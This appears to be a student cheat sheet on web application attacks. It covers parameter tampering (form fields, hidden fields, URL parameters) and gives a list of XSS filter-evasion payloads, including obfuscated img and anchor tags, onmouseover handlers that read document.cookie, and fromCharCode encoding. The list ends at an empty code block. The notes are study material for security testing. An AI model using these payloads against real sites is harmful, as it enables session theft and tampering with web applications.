 # SC MST Cheat Sheet

###### tags: #SC 

## Table of Contents
```toc
```

## Parameter Tampering
### Tampering of Form Fields
- Form field values can be tampered on Burp Suite by intercepting packets and forwarding them

### Hidden Field
- If a website uses hidden fields to store status information, malicious user can tamper with the values stored in their browser and change the referred information
- Values can be modified via by inspecting elements in the web browser

### Tampering with URL Parameters
- URLs can show parameters and values can be modified:
```
# Original
https://www.example.com/defaut.asp?profile=123&value=123

# Modified (Statuses)
https://www.example.com/defaut.asp?profile=123&value=123&status=read
https://www.example.com/defaut.asp?profile=123&value=123&status=del
```

## XSS Filter Evasion
- Basic XSS Test
```html
<script>alert("Hello World!")</script>
```

### Image XSS Using JavaScript Directive
- No quotes or semicolons
```html
<img src=javascript:alert('XSS')>
```
- HTML entities
```html
<IMG SRC=javascript:alert(&quot;XSS&quot;)>
```
- Grave accent obfuscation
```html
<IMG SRC=`javascript:alert("RSnake says, 'XSS'")`>
```
- Malformed `<a>` tags
```html
\<a onmouseover=alert(document.cookie)\>xxs link\</a\>
`\<a onmouseover="alert(document.cookie)"\>xxs link\</a\>`
```
- Malformed `<img>` tags
```html
<IMG """><SCRIPT>alert("XSS")</SCRIPT>"\>
```
- `fromCharCode` (if no quotes of any kind are allowed, use `eval()` to create any XSS vector)
```html
<IMG SRC=javascript:alert(String.fromCharCode(88,83,83))>
```
- Default `src` tag to get past filters that check SRC domain
```html
<IMG SRC=# onmouseover="alert('xxs')">
```
- Default `src` tag by leaving it empty
```html
<IMG SRC= onmouseover="alert('xxs')">
```
- Default `src` tag by leaving it out entirely
```html
<IMG onmouseover="alert('xxs')">
```
- On error alert
```

```